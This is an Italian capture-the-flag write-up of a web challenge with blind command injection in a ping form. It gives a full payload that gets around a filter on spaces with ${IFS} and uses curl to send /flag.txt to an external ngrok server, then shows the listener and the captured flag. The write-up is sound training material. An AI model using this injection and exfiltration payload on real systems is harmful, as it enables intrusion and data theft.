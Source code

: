 # Writeup: WS_1.01 - BasicRCE

## Overview
- **Categoria:** Web
- **Autore:** bonaff
- **Difficoltà:** 495
- **Stato:** Up (last checked: 11 minutes ago)
- **URL:** [http://basicrce.challs.cyberchallenge.it](http://basicrce.challs.cyberchallenge.it)

## Descrizione 📝
La challenge presenta una pagina web con un campo di input e un pulsante "Ping!". Il titolo stesso suggerisce la presenza di una vulnerabilità di **Remote Code Execution (RCE)**.

Il problema principale è che:
- **Non c'è output diretto**.
- **Non si possono usare spazi**.

L'obiettivo è trovare un modo per leggere il contenuto di `/flag.txt` e riceverlo su un server esterno.

## Soluzione 🎯

### 1. Identificazione della Vulnerabilità
Il campo di input accetta un valore che viene passato a un comando `ping`. Se non ci sono adeguate misure di sicurezza, è possibile concatenare altri comandi usando `;` o `&&`.

Dal titolo e dai test eseguiti, risulta che:
- Il comando viene eseguito direttamente nel sistema.
- Gli spazi non sono consentiti, ma possono essere aggirati con `${IFS}`.

### 2. Creazione del Payload
Poiché il server non restituisce output, dobbiamo inviare la flag a un server esterno usando `curl`.

Il payload finale è:
```sh
www.google.com;${IFS}curl${IFS}-X${IFS}GET${IFS}"https://60bf-94-32-176-238.ngrok-free.app?flag=$(cat${IFS}/flag.txt)"
```
**Spiegazione:**
- `www.google.com;` → esegue il comando `ping` su Google e poi continua con il nostro exploit.
- `${IFS}` → sostituisce gli spazi, aggirando il filtro.
- `curl -X GET "URL?flag=$(cat /flag.txt)"` → legge la flag e la invia al nostro server.

### 3. Ricezione della Flag
Su un server Ngrok, avviamo un listener per intercettare la richiesta:
```sh
python3 -m http.server 80
```
Quando il payload viene eseguito, riceviamo la risposta con la flag:
```
127.0.0.1 - - [20/Feb/2025 03:55:51] "GET /?flag=CCITP1ng_P0ng_s3micol0n_g3t_fl4g HTTP/1.1" 200 -
```

## Flag 🏁
```
CCIT{P1ng_P0ng_s3micol0n_g3t_fl4g}
```

## Lezioni Apprese 📚
- **Remote Code Execution (RCE)**: L'inserimento di comandi non sanitizzati permette l'esecuzione arbitraria sul server.
- **Evitare il filtro sugli spazi**: `${IFS}` è un metodo efficace per aggirare il blocco degli spazi.
- **Esfiltrazione dei dati**: Se l'output è bloccato, è possibile usare `curl` per inviare le informazioni a un server esterno.

## Tools Utilizzati 🛠️
- **Burp Suite**: Per testare le iniezioni.
- **Ngrok**: Per ricevere la flag.
- **Python HTTP Server**: Per catturare le richieste.

---

*Writeup by Luca Crippa - Last Updated: 2024*
